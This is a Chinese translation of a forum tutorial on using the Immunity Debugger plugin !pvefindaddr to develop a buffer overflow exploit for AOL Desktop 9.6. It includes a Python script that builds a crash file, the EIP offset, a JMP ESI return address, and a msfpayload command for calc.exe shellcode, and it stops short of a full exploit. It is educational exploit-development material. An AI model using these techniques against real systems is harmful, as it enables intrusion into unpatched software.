







# 使用!pvefindaddr 更容易的开发漏洞利用

> 原文：[`www.pediy.com/kssd/pediy12/130748.html`](https://www.pediy.com/kssd/pediy12/130748.html)

翻译题目：使用!pvefindaddr 更容易的开发漏洞利用  
  Exploit Writing Made Easier With !pvefindaddr  
作者:仙果  
版权提示：文章版权归作者所有，转载请注明出处，尊重作者劳动成果。  
  题记：看雪上好像没有专门介绍 Immunity Debugger 的!pvefindaddr 功能的文章,之前还请教过泉哥，花了一周的空闲时间把文章翻译完，算是补充下。  
  最近在 fuzzing 相关的项目，但是苦于没有经验，进展非常缓慢，求 Fuzzing 的一些思路，谢谢咯。  
  在 exploit-db 的网站上看到这么一篇文章，使用!pvefindaddr 开发 exploit,之前使用过这个命令，确实非常有用，今天正好翻译下，共享给更多的朋友，在这里谢谢泉哥之前的帮助。  
  现在开始正题，由于英语水平的限制（四级没过），文中肯定有翻译不正确之处，欢迎指正，仙果感激不尽。  
  Exploit Writing Made Easier With !pvefindaddr  
  开始阅读之前有一些需要注意的地方，包括本文讲到的和未讲到的点。  
  1.本文是为了证明!pvefindaddr 是有效的。  
  2.本文不会完成漏洞的最终利用，如果你需要利用代码，可以在[`www.exploit-db.com/exploits/16107/`](http://www.exploit-db.com/exploits/16107/)上下载到。  
  现在让我们开始吧。  
    
  软件列表：  
  Immunity Debugger：[`www.immunityinc.com/products-immdbg.shtml`](http://www.immunityinc.com/products-immdbg.shtml)  
  !pvefindaddr：  [`redmine.corelan.be:8800/projects/pvefindaddr`](http://redmine.corelan.be:8800/projects/pvefindaddr)  
  AOL Desktop v9.6：  [`daol.aol.com/software/aoldesktop96/`](http://daol.aol.com/software/aoldesktop96/)  
    
  必备知识：  
  理解缓冲区溢出是原理  
  漏洞利用技巧  
  一门程序开发语言（我选用 python）  
    
  我听了很多人抱怨漏洞利用过程中必须要使用各种各样的软件，如果这些软件不是自动化的又要花费更多的时间来完成任务或者为了  
绕过 SAFESEH 和 ASLR,这就是需要!pvefindaddr 出现的地方了。  
    
  !pvefindaddr 是什么!?  
  简短洁说！!pvefindaddr 是由 corelanc0d3r：[`twitter.com/#!/corelanc0d3r`](https://twitter.com/#!/corelanc0d3r) （需要翻墙）为 Immunity Debugger 开发的一个 Python 命令接口（MS 不怎么准确，译者注），其差不多可以做漏洞利用开发过程的所有事情。有一些帮助信息,  
如何安装：  
!pvefindaddr:[`redmine.corelan.be:8800/proje...ndaddr\_install`](http://redmine.corelan.be:8800/projects/pvefindaddr/wiki/Pvefindaddr_install)   
  例子:[`redmine.corelan.be:8800/proje...findaddr\_usage`](http://redmine.corelan.be:8800/projects/pvefindaddr/wiki/Pvefindaddr_usage)   
    
  OK，让我们真正开始吧  
  安装 AOL Destop 9.6(应当注意,如果程序无法在 Immunity Debugger 中正确运行，你必须按住 CTRL+ALT+DEL 弹出任务管理器-进程,结束掉 AOL 的相关进程，然后重新执行程序。)  
  (准备把 AOL Desktop 9.6 下载下来自己调试一番，找了半天也没有安装上去，就只翻译，不做本地调试了，也挺郁闷的：译者注)  
  我们来完成大概的利用（不会完成整个利用，查看文章开头），包含 2 个标准头，中间是我们的缓冲区数据，让我们来构造它吧：  

代码:

```
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  #!/usr/bin/python
  # The First Header
  hd1 = ("\\x3c\\x48\\x54\\x4d\\x4c\\x3e\\x3c\\x46\\x4f\\x4e\\x54\\x20\\x20\\x53\\x49\\x5a"
  "\\x45\\x3d\\x32\\x20\\x50\\x54\\x53\\x49\\x5a\\x45\\x3d\\x31\\x30\\x20\\x46\\x41"
  "\\x4d\\x49\\x4c\\x59\\x3d\\x22\\x53\\x41\\x4e\\x53\\x53\\x45\\x52\\x49\\x46\\x22"
  "\\x20\\x46\\x41\\x43\\x45\\x3d\\x22\\x41\\x72\\x69\\x61\\x6c\\x22\\x20\\x4c\\x41"
  "\\x4e\\x47\\x3d\\x22\\x30\\x22\\x3e\\x3c\\x41\\x20\\x48\\x52\\x45\\x46\\x3d\\x22"
  "\\x68\\x74\\x74\\x70\\x3a\\x2f\\x2f")
  # The Second Header
  hd2 = ("\\x22\\x3e\\x74\\x65\\x73\\x74\\x3c\\x2f\\x41\\x3e\\x3c\\x55\\x3e\\x3c\\x42\\x52"
  "\\x3e\\x0d\\x0a\\x3c\\x2f\\x55\\x3e\\x3c\\x2f\\x46\\x4f\\x4e\\x54\\x3e\\x3c\\x2f"
  "\\x48\\x54\\x4d\\x4c\\x3e\\x0d\\x0a")
  payload='\\x90'\* 6000
  exploit = hd1+payload+hd2
  try:
  file=open('exploit.rtx','w')
  file.write(exploit)
  file.close()
  print 'File created, time to PEW PEW!\\n'
  except:
  print 'Something went wrong!\\n'
  print 'Check if you have permisions to write in that folder, of if the folder exists!'
  \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

```

生成并使用这个利用，然后打开 AOL Desktop 就会发现程序的 EIP 已经被我们的"\\x90"所覆盖  
  图片（1）  
  
下一步如何做呢？计算出到覆盖 EIP 的精确偏移。  
  （注意：我们继续之前，重启 AOL 并重启附加进程）  
  在调试器中可以点击 PyCommands 按钮，弹出的列表中选择!pvefindaddr 并输入参数，或者可以在调试器底部的命令行栏输入!pvefindaddr 和参数，如图所示：  
  图（2）  
  
等下你就可以看到提示"check mspttern.txt",到 Immunity Debugger 目录下打开 mspatters.txt,拷贝模板到我们的漏洞利用代码中并重新生成，然后运行包含模板的恶意文档。  
  图（3）  
  
我们可以发现 EIP 为 0x35784734,也可以观察到寄存器 ESI 为我们的数据，为了确定精确的偏移会使用到!pvefindaddr 的另一个功能，使用 metasploit 可以尝试使用"pattern\_offset EIP"(不清楚 MSF 的这个功能，译者注)，现在使用!pvefindaddr 来得到更多的信息，尝试使用 findmsp 函数，如图所示  
  图（4）  
  
完成以后，打开记录窗口（log windows,调试器的记录窗口，译者注），可以发现得到了非常有用的信息。  
  图（5）  
  
图中可以发现在 davclnt.dll 中查找到了寄存器地址，（个人认为其中 patters 是个错别字，原单词应该是 pattern，作“图像”解,译者注）  
  覆盖 EIP 是从第 5384 个字节开始的，图中 5368 出指向的寄存器地址为 CALL DWORD \[ESI +10H\]指令地址（如果你检查的话），其校验 SEH 链表（异常处理链表，完整意思应该是，从第 5368 个字节开始覆盖了 SEH 异常链表地址，由于无法实际环境验证，翻译错误请指正，译者注），  
同时如果你现在猜不到的话可以查看堆栈界面（调试器右下角，译者注），它会清晰的指出当 ESP 寄存器包含一个我们缓冲区的指针，这个位置是从第 4360 开始的。  
  这是一个非常好的功能但是还可以做的更好，!pvefindaddr 同样有一个函数可以运行一个 Findmsp 且之后依据结果和堆栈给出漏洞利用类型和如何构造利用的信息，让我们构造吧。  
代码:

```
!pvefindaddr suggest

```

  图（6）  
  
  
高兴吧，哈哈?（连漏洞样本实例都给出了，译者注）    
  现在我们知道了覆盖 EIP 的精确偏移，寄存器 ESI 为我们的数据。下一步就是找到控制 ESI 到 EIP 的地址如 JMP ESI ,CALL ESI 等等。这是一些从指定模块查找出的没有空字节（NULL BYTES）的简单指令。（注意：我不是说手动查找找不到而是说这会节省时间而且更加容易）。  
  使用一个通用地址来编写漏洞利用程序（就像原文中提到的利用程序一样），查找这个指令会话费大量的时间，很大的原因是太多类似的指令去辨别（辨别为自己添加，译者注），但是可以使用 !pvefindaddr 来精确地从指定的模块和指定的特征码（chatacteristics 这个单词为错别字，正确单词为 characteristics，译为特征码，译者注）中查找出每一个 JMP ESI 指令。  
  好吧，现在使用!pvefindaddr 来得到模块列表和其特征信息，完成后可以得到程序加载的所有模块和模块的 SAFESEH,ASLR 等等信息。  
  图（7）  
  
找到合适的模块以后（什么模块合适，我也不知道，译者在搞笑）就可以开始了，使用命令来查找特定的指令:  
  
代码:

```
!pvefindaddr j -r ESI -n -o (这会花费一段时间，店小二，来坛烧酒些许花生)

```

  这个函数会查找跳转到指定寄存器的指针（这里是 ESI），函数使用最常见的情况是控制覆盖到的 EIP 执行的流程，其从未修复和未地址随机化的模块中查找任何一条 JMP ESI 或 CALL ESI 组合的指针，-n 标志指定指针包含空字节，-o 标志指定在系统模块中查找（保证通用性）。  
  经过一段时间搜索后，我们在 aolusershell.dll 中得到了一个好地址：20C5CFC0，这是完美利用的第一步。  
  接下来要做的事情就是文件中和内存中的某些字节(一般是 shellcode)进行比对和校验,同时也对 unicode 扩展实例进行对照（就是不要在 shellcode 中出现程序进行特殊解析的字节，比如说 00 0a 0b 77 等等，不一而是，译者注）。现在我们需要编写二进制 shellcode(只是 shellcode),在 metasploit 中使用如下命令可以输出一段原始的净负荷或者管道代码：  
  
代码:

```
msfpayload windows/exec CMD=calc.exe R > shellcode

```

!pvefindaddr wike 上有一段很好的 perl 脚本教你如何去做到以上的事情:  
  
代码:

```
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  my $shellcode="\\xcc\\xcc\\xcc\\xcc"; #paste your shellcode here
  open(FILE,">c:\\\\temp\\\\shellcode.bin");
  binmode FILE;
  print FILE $shellcode;
  close(FILE);
  \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

```

我们运行完整的利用程序（包含 shellcode 且没有其他断点），程序挂到了，我们校验一下：  
  图（7）  
  
  
命令完成以后，可以从记录窗口或者在 Immunity Debugger 目录中打开 compare.txt。  
  图（8）  
  
  
根据提示可以做以下事情：  
  -已经在 EIP 被覆盖之前就确定了精确的偏移，且一个寄存器指向了我们的缓冲区。  
  -确认了漏洞利用的类型，得到了如何构造利用的一些信息。  
  -找出了那些模块存在 SAFESEH,ASLR 或者被重定向。  
  -找到了需要避开以上模块的指令，且其为系统模块地址。  
  -如果 shellcode 中包含无效字符的话就需要校验。  
  
  你瞧，只使用!pvefindaddr 就做到了以上的事情，并且也节省了很多时间。  
  
  吐槽下作者，你的英语好难懂，也是自己英语水平太低了。如果你英语水平好，还是直接看原文吧。  
  总结下文章中所使用到的 !pvefindaddr 函数,由于无实际环境，函数具体功能说明就只有以后补充了。  
  
代码:

```
  1.!pvefindaddr pattern\_create 6000

  2.!pvefindaddr findmsp

  3.!pvefindaddr suggest

  4.!pvefindaddr modules

  5.!pvefindaddr j -r ESI -n -o

  6.!pvefindaddr compare c:\\shellcode

```

Exploit Writing Made Easier With !pvefindaddr.doc And PDF.rar  
  
Exploit Writing Made Easier With !pvefindaddr\_ 英文原版.pdf